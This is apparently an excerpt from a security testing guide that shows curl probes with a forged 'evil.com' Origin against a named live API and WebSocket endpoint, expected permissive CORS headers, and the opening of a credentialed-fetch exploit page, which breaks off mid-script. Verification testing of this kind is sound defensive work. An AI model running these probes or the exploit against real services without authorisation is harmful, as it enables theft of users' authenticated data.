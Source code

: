 **Phase 4: Remediation & Verification**
1. Code fixes (static analysis tools)
2. Configuration hardening (Lynis, Kube-bench)
3. Re-testing (verification scans)

---

## **🤖 AI-Assisted Security Testing Methodology**

This guide incorporates the latest AI-human hybrid approach for security testing, based on comprehensive analysis of AI-driven vs human-led security auditing.

### **Hybrid Testing Approach:**
- **AI Tools**: Pattern recognition, automated scanning, code analysis
- **Human Expertise**: Context understanding, validation, business impact assessment
- **Best Practice**: Always verify AI findings with manual testing

---

## **Testing the Vulnerability**

### **1. Test Current Vulnerable State**

**Check CORS Headers:**
```bash
curl -H "Origin: https://evil.com" -H "Access-Control-Request-Method: POST" -X OPTIONS https://workflow.aixblock.io/api/workflows
```

**Expected Vulnerable Response:**
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: *
Access-Control-Expose-Headers: *
```

**Test WebSocket CORS:**
```bash
curl -H "Origin: https://evil.com" -H "Connection: Upgrade" -H "Upgrade: websocket" https://workflow.aixblock.io/socket.io/
```

### **2. Test Malicious Exploit**

**Create Test File (`exploit.html`):**
```html
<!DOCTYPE html>
<html>
<head><title>CORS Exploit Test</title></head>
<body>
    <h1>AIxBlock CORS Exploit Test</h1>
    <div id="output">Testing...</div>
    <script>
        fetch('https://workflow.aixblock.io/api/workflows', {
            method: 'GET',
            credentials: 'include'
        })
        .then(response => {
            document.getElementById('output').innerHTML = 
                '<h2>SUCCESS: Vulnerable to CORS attack!</h2>' +
                '<p>Response status: ' + response.status + '</p>' +
                '<p>This proves the vulnerability exists.</p>';
        })
        .catch(error => {
```